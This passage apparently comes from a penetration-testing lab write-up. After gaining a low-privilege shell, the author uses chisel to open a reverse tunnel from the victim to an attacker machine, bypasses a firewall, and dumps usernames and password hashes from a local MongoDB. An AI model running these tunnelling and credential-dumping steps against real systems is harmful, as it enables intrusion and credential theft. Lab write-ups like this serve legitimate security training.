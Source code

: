 ```
www-data@ubuntu:/home/hackzzdogs$ netstat -tulpn 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:34859         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           - 
```

It seems that port 27017 for MongoDB is open on the machine. We can use `chisel` to port forward this. **Remember that port 6000 is the port allowed through the firewall! So use that for HTTP and the port to connect to!**

```bash
# on Kali
chisel server -p 6000 --reverse
# on victim machine
chisel client 192.168.45.161:6000 R:27017:127.0.0.1:27017
```

We can then access and enumerate  the MongoDB instance from our machine:

```
$ mongo --host 127.0.0.1
> show dbs
admin   0.000GB
config  0.000GB
local   0.000GB
staffs  0.000GB
> use staffs
switched to db staffs
> show collections
ssh_login
> db.ssh_login.find()
{ "_id" : ObjectId("603505584a98f28de50cc0f4"), "name" : "root", "pw_hash" : "5ff837a98703011de7d0a576ca9a84be6f9e4a798329423c8200beabd0f178656591fdac53ff785e71062dd2473d6dc1bb822a7dce1fc626ee44855466f3c8e1", "role" : "dev" }
{ "_id" : ObjectId("603505584a98f28de50cc0f5"), "name" : "carlos", "pw_hash" : "20132c01e17d4267d316fbfd721becd6a2656b061b365a5d76efdefb386d74a489ebe323bb65fecfe7404aef00f574e6fcce668f0f358ea7bc12c9ef25eb7804", "role" : "manager" }
{ "_id" : ObjectId("603505584a98f28de50cc0f6"), "name" : "enox", "pw_hash" : "216572a4d605f2805f918ba0d6b1ade045076832d7bb5476d7ede7d9159121b88edb398d28b470df263d8d2a710e86f27f1a27e66137efae46cb47de87916cee", "role" : "admin" }
```

